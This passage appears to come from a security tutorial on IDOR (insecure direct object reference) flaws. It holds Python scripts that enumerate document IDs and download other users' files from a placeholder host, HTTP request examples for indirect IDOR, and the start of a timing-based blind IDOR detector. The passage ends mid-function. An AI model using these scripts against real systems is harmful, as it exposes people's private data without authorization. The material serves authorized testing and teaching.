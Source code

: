 ```python
        
        with open(filepath, 'wb') as f:
            f.write(content)

# Usage
headers = {'Authorization': 'Bearer your_token_here'}
doc_idor = DocumentIDOR("https://vulnerable-app.com", headers)
doc_idor.test_document_access(range(1000, 2000))
```

## 🚀 Advanced IDOR Techniques

### 1. 🔄 Indirect IDOR

Sometimes IDOR vulnerabilities are not directly visible but can be exploited through indirect methods.

#### Indirect IDOR Examples
```bash
# Step 1: Get list of accessible resources
GET /api/user/profile HTTP/1.1
Response: {"user_id": 123, "documents": [{"id": 456, "name": "contract.pdf"}]}

# Step 2: Use document ID from another user's profile
GET /api/document/789 HTTP/1.1  # Document ID from user 124's profile
```

### 2. 🎭 Blind IDOR

IDOR vulnerabilities where you can't see the response but can infer success through side channels.

#### Blind IDOR Detection
```python
#!/usr/bin/env python3
"""
Blind IDOR Detection Tool

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import time

class BlindIDORDetector:
    def __init__(self, target_url, auth_headers):
        self.target_url = target_url
        self.session = requests.Session()
        self.session.headers.update(auth_headers)
    
    def test_blind_idor(self, endpoint_template, id_range):
        """Test for blind IDOR using timing and status codes"""
        baseline_times = []
        
        # Establish baseline timing
        for _ in range(5):
            start_time = time.time()
            try:
                response = self.session.get(f"{self.target_url}/api/nonexistent/999999")
                end_time = time.time()
                baseline_times.append(end_time - start_time)
            except:
                pass
```